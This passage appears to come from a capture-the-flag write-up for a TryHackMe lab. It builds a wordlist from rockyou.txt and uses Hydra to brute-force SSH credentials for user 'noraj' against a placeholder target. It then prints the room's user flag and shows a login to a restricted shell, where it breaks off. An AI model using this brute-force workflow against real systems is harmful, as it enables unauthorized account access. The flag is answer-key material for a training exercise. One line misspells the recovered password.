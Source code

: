 <h3>Wordlist</h3>

```bash
:~/RedStoneOneCarat# grep 'bu' /usr/share/wordlists/rockyou.txt > BU_wordlist.txt
:~/RedStoneOneCarat# ls
BU_wordlist.txt
~/RedStoneOneCarat# head BU_wordlist.txt
butterfly
bubbles
buster
ladybug
bubble
buttercup
lovebug
bubblegum
butter
buddy1
```

<h3>Hydra</h3>

<p>noraj : <code>cheeseburguer</code></p>

```bash
:~/RedStoneOneCarat# hydra -l noraj -P BU_wordlist.txt ssh://TargetIP
...
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 126339 login tries (l:1/p:126339), ~7897 tries per task
[DATA] attacking ssh://TargetIP:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 126163 to do in 11:45h, 16 active
[22][ssh] host: TargetIP   login: noraj   password: cheeseburger
1 of 1 target successfully completed, 1 valid password found
```

<br>

<p>1.2. user.txt<br>
<code>THM{3a106092635945849a0fbf7bac92409d}</code></p>

<h3>SSH</h3>

```bash
:~/RedStoneOneCarat# ssh noraj@TargetIP
noraj@TargetIP's password: 
getent:6: command not found: grep
compdump:136: command not found: mv
red-stone-one-carat% id
zsh: command not found: id
red-stone-one-carat% pwd
/home/noraj
red-stone-one-carat% ip a
zsh: command not found: ip
red-stone-one-carat% /bin/bash
zsh: /bin/bash: restricted
```
